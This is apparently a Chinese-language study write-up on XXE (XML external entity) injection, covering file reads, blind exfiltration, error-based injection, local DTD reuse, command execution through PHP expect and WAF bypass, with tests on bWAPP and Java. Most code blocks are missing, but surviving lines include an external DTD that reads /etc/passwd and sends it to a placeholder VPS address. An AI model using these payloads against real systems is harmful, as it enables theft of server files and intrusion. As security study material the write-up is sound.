










XML基础
字符实体
字符实体类似html中的实体编码，形如：a（十进制）或者a（十六进制）
命名实体
1 |
|
外部实体
1 |
|
参数实体
1 |
|
实体嵌套
参数实体允许嵌套，内层的定义的参数实体% 需要进行HTML转义，否则会出现解析错误。
1 | [ |
协议支持
各语言中XML文档加载外部实体时支持的协议如下表
| LIBXML2 | PHP | JAVA | .NET |
| file | file | http | file |
| http | http | https | http |
| ftp | ftp | ftp | https |
| php | file | ftp | |
| compress.zlib | jar | ||
| compress.bzip2 | netdoc | ||
| data | mailto | ||
| glob | gopher | ||
| phar |
读取文件
外部实体读文件
1 |
|
参数实体读文件
1 |
|
参数实体加载到的内容是要被当作DTD解析的，如果内容不符合DTD语法就会报错，并不适合直接读文件，各语言在报错的时候暴露的内容也不一样

XXE盲注
基本形式
有时候XXE注入点没有回显，此时可以利用参数实体将读取到的文件通过http/ftp等协议发送出去
1 |
|
evil.dtd内容为：
1 | <!ENTITY % payload "<!ENTITY % send SYSTEM 'http://<vps-addr>/?content=%file;'>"> |
必须加载外部dtd并且evil.dtd中必须使用嵌套方式定义发送文件的实体
要点1
为什么要从外部加载dtd文件来发送文件，直接读取文件然后发送不行吗？不行

报错：PEReferences(Parameter-entity) forbidden in internal subset in Entity
原因：DTD规则 定义了在DTD内部子集中，参数实体的引用不允许在标记声明里，而在外部DTD中，是可以的。
要点2
外部dtd中实体payload的定义里%为什么编码为%
%不允许出现在Entity的value中. 所以需要将%进行Unicode编码为%。在xml中Unicode编码与字符本身是一样的
要点3
为什么非要做实体的嵌套，而不能像下边这样？
1 | <!ENTITY % send SYSTEM "http://192.168.51.150/%file;"> |

报错：发现直接声明参数实体send然后引用%send; , 结果就是%file;没有被解析
原因：所以需要在外面包一个参数实体int的声明，%int;引用的时候%file;会被成功解析，然后在%send;就可以成功的将解析%file;的内容传出。所以%int只是辅助的作用，用于辅助解释send实体内容。
这个问题还不是很清楚，再说
Ftp协议读文件
在java，.net等程序中没有php://filter/read=convert.base64-encode/resource=php://input这样的工具，导致使用http协议发送文件内容时由于换行符的存在而失败。所以如果要读取换行的文件，一般使用FTP协议。FTP服务器脚本如下
1 | require 'socket' |
外部DTD——evil.xml的内容如下：
1 | <!ENTITY % file SYSTEM "file:///etc/passwd"> |
客户端请求的payload如下
1 |
但实际测试的时候一直不成功，虽然服务端请求了远程dtd但ftp请求并未发出,由于换行等特殊符号的存在依旧报错


外部DTD报错注入
有时候服务器虽然可以出网，但打payload时由于读取的文件中含有一些特殊符号，在java，.net等程序中又没有php://filter/read=convert.base64-encode/resource=php://input这样的工具，导致使用http或ftp协议发送文件内容时常常失败，而报错注入则不存在此类问题
VPS上放置test.dtd，内容如下
1 | <!ENTITY % file SYSTEM "file:///etc/passwd"> |
然后客户端发送xml请求进行利用
1 |

但是使用bwapp(PHP)测试时并不成功，是由于解析器不同导致

内部参数实体报错注入
对于不能出网的情况，也可以使用内部参数实体报错注入，payload如下
1 |
|
但是使用bwapp测试没有成功，是解析器差异导致

但是java下测试成功

引用本地DTD
由于XML的广泛使用，各个系统中已经存在了部分DTD文件。如果目标主机的防火墙十分严格，不允许请求外网服务器dtd，可以从外部引入外部DTD文件，并在内部重写一个该dtd文件中含有的参数实体就行。如ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd部分内容

可以使用payload如下
1 |
虽然在内部重写了该dtd文件中含有的参数实体，但此时调用是在外部，这样仍然可以实现。这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码。
如何找到这个内部 DTD
如果找不到就会报错，所以可以尝试常见的linux本地DTD文件，比如
1 |
通过搜索常见 DTD 列表，编写脚本批量请求，确认存在的文件，然后查看该文件，看哪些实体变量可以使用。
内部实体声明中引用实体参数
虽然W3C协议是不允许在内部的实体声明中引用参数实体，但是很多XML解析器并没有很好的执行这个检查。几乎所有XML解析器能够发现如下这种两层嵌套式的：
1 |
实测失败，至少需要PHP中使用为协议编码才可
特殊文件上传处理引起的 XXE
有一些文件是基于 XML 的，如 SVG 图像，DOCX 文档，如果后端在文件上传之后对这些类型的文件进行解析之类，就有可能触发 XXE。这个时候可以传入一个恶意的 SVG 图像触发漏洞。
命令执行
当PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上时，那么我们就可以执行如下的命令：
1 | <!-- 以下代码将尝试与端口8080通信 --> |
WAF绕过
关键词被过滤绕过
ENTITY、SYSTEM、file等关键词被过滤，可使用编码方式绕过：UTF-16BE
1 | cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml |
html实体编码绕过
如果过滤了http等协议，可以利用实体编码绕过
data://协议绕过
PHP环境下支持data协议，型如：
参考文档
https://rickgray.me/2015/06/08/xml-entity-attack-review/
https://m3lon.github.io/2019/01/20/xxe%E5%AE%9E%E9%AA%8C%E8%B8%A9%E5%9D%91%E8%AE%B0%E5%BD%95/
https://j7ur8.github.io/WebBook/VUL/%E6%8A%A5%E9%94%99XXE.html
https://www.icode9.com/content-4-1075374.html
https://www.cnblogs.com/backlion/p/9302528.html
https://myt0.com/2020/02/28/xxe%E6%80%BB%E7%BB%93/